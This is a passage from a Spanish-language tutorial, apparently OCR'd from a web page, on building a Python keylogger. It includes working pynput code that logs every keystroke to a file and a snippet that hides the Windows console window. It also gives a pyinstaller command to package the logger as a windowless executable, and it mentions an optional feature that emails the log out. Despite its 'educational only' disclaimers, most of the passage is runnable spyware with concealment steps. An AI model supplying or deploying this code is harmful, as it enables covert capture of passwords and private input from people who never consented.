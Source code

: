 
### 🛡️ Cómo detenerlo

Presiona `Ctrl + C` en la terminal para detenerlo, o cierra el proceso si lo ejecutaste en segundo plano.

---

### 📦 Versión con registro y envío automático por correo (opcional)

Este paso **solo para entorno educativo**: agrega la funcionalidad para que el keylogger se autoenvíe por correo (por ejemplo, a ti mismo para fines de análisis).

> Este tipo de funcionalidad **NO debe usarse con fines maliciosos.**

---

### 💻 Ejecución en segundo plano (opcional)

Puedes ejecutarlo como proceso oculto:

```python
import os
import sys

# Ocultar consola (solo Windows)
if os.name == 'nt':
    import ctypes
    ctypes.windll.user32.ShowWindow(ctypes.windll.kernel32.GetConsoleWindow(), 0)
```

O convertirlo en ejecutable con `pyinstaller`:

```bash
pip install pyinstaller
pyinstaller --onefile --noconsole keylogger.py
```

---

### 📋 Ejemplo final más completo

```python
from pynput import keyboard

log_file = "keylog.txt"

def guardar_en_archivo(tecla):
    tecla = str(tecla).replace("'", "")
    with open(log_file, "a") as f:
        f.write(tecla + " ")

def main():
    with keyboard.Listener(on_press=guardar_en_archivo) as listener:
        listener.join()

if __name__ == "__main__":
    main()
```

---